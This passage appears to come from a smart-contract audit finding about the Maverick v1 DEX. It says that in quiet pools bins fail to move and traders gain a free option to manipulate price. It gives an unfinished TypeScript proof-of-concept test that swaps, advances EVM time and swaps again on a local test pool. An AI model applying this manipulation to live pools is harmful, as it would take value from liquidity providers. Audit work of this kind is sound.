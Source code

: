 If the pool does not have a lot of activity (which is very common for newer DEX / tail asset), the bin will not be moved to the expected position. 

Trader will have a free option to manipulate price in their favor.

### Proof of Concept

Adding this test case to ./maverick-v1/test/models/Pool.ts

```typescript
    describe.only("when the twap moves and there are bins that can be moved", () => {
      beforeEach(async () => {
        await testPool.addLiquidity(1, [
          {
            kind: 1,
            isDelta: true,
            pos: 0,
            deltaA: floatToFixed(3),
            deltaB: floatToFixed(3),
          },
          {
            kind: 1,
            isDelta: true,
            pos: 2,
            deltaA: floatToFixed(3),
            deltaB: floatToFixed(3),
          },
          {
            kind: 1,
            isDelta: true,
            pos: 10,
            deltaA: floatToFixed(0),
            deltaB: floatToFixed(10),
          },
        ]);
      });
    
    it("+10, 0, -10", async () => {
      await testPool.swap(
        await owner.getAddress(),
        floatToFixed(10),
        true,
        false
      );
      await ethers.provider.send("evm_increaseTime", [3600]);
      await ethers.provider.send("evm_mine", []);
      await testPool.swap(
        await owner.getAddress(),
        floatToFixed(0),
        false,
        true
      );
      await testPool.swap(
        await owner.getAddress(),
        floatToFixed(10),
        false,
        true
      );
      const afterTokenABalance = fixedToFloat(
        await tokenA.balanceOf(await owner.getAddress())
      );
      const afterTokenBBalance = fixedToFloat(
        await tokenB.balanceOf(await owner.getAddress())
      );
      console.log(afterTokenABalance, afterTokenBBalance);
```